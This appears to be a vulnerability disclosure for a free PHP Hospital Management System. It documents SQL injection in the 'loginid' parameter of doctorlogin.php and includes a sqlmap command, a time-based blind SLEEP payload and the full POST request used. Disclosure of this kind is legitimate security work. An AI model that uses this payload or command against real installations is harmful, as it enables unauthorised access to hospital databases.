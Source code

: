 **[Hospital-Management-System v1.0-SQLi-3](https://itsourcecode.com/free-projects/php-project/hospital-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/unguardable/)
---

![图片](https://user-images.githubusercontent.com/23294478/170828924-56cae6f3-fca0-498f-9bd1-8f7119b6b3e2.png)

### Description:
---
The vulnerability page is ```doctorlogin.php```

```http://your-ip/hms/doctorlogin.php```


Hospital-Management-System v1.0  

The ```loginid``` parameter in the ```doctorlogin.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:


python sqlmap.py -r `Your post packet.txt` --random-agent --risk=3 --level=3 -dbs

[+] Payloads:

```
Parameter: loginid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: loginid=test' AND (SELECT 1110 FROM (SELECT(SLEEP(5)))pvXE) AND 'crsy'='crsy&password=test123&submit=Login
```

[+]POST request package

```
POST /hms/doctorlogin.php HTTP/1.1
Host: 192.168.74.136
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://192.168.74.136
Connection: close
Referer: http://192.168.74.136/hms/doctorlogin.php
Cookie: PHPSESSID=sbgmgg8q26ri1tmnqfv7poto25
Upgrade-Insecure-Requests: 1

loginid=test&password=test123&submit=Login
```
### In action:
---

![图片](https://user-images.githubusercontent.com/23294478/170828948-a1242c63-86ea-4ca9-8525-08544cf5cc5d.png)

### Proof and Exploit:
---


https://user-images.githubusercontent.com/23294478/170828976-ce777ace-66da-4637-9840-7fe62b0f3168.mp4



